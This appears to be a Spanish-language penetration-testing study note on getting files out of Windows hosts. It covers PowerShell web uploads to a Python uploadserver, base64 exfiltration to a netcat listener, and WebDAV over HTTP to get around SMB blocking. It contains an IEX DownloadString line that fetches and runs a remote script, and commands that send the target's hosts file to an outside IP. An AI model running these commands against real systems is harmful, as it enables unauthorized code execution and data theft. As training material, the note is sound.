 ## PowerShell Web Uploads

Para las subidas, podemos configurarnos `uploadserver`, un módulo extendido de `HTTP.server` de [[python]]:

```bash
pip3 install uploadserver
```
```bash
python3 -m uploadserver
```

Y posteriormente, utilizar el script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1):

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Base64
Otra forma de realizar una subida, es encodeando en *base64* y mandando la cadena con [[netcat]]:

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
```bash
nc -lvnp 8000
```
```bash
echo <base64> | base64 -d -w 0 > hosts
```

## SMB Uploads

Las empresas suelen permitir el tráfico saliente por [[80-http|HTTP]] y  [[443-https|HTTPS]], pero bloquean el protocolo [[445-SMB|SMB]] por seguridad. Una alternativa es usar SMB sobre HTTP con [[WebDAV]], una extensión de HTTP que permite a un servidor web funcionar como un servidor de archivos, incluso usando HTTPS.

Para montarnos nuestro WebDAV, debemos instalar dos módulos de [[python]], `wsgidav` y `cheroot`:

```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
dir \\192.168.49.128\DavWWWRoot
```

> `DavWWWRoot` es una palabra clave especial reconocida por el Shell de Windows. No corresponde a ninguna carpeta real en el servidor WebDAV; en cambio, le indica al controlador Mini-Redirector, que maneja las solicitudes WebDAV, que se está conectando a la raíz del servidor WebDAV.
>
> Para evitar usar `DavWWWRoot`, puedes especificar una carpeta existente en el servidor al conectarte, por ejemplo: `\192.168.49.128\sharefolder`.
